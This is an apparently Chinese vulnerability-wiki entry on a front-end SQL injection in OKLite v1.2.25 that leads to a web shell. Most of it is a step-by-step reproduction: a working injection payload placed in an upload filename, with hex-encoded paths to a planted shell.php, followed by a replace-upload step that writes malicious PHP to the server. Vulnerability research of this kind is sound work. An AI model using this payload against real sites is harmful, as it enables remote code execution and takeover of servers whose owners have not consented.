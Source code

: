 OKLite v1.2.25 SQL注入导致getshell(前台)
========================================

一、漏洞简介
------------

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

二、漏洞影响
------------

OKLite v1.2.25 版本

三、复现过程
------------

地址：<http://www.0-sec.org/index.php?id=message>

在线留言处上传一个图片并抓包，把文件名修改为：

    1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc

![](/Users/aresx/Documents/VulWiki/.resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId25.png)

上传成功之后会返回图片的id和保存的路径：

![](/Users/aresx/Documents/VulWiki/.resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId26.png)

再次上传一个图片，把地址中的save改成replace，添加一个参数名为`oldid`，值为图片的id
+ 1。

图片的内容改为恶意的php代码：

![](/Users/aresx/Documents/VulWiki/.resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId27.png)

上传完成之后可在`res\201910\05`目录下生成一个shell.php

![](/Users/aresx/Documents/VulWiki/.resource/OKLitev1.2.25SQL注入导致getshell(前台)/media/rId28.shtml)
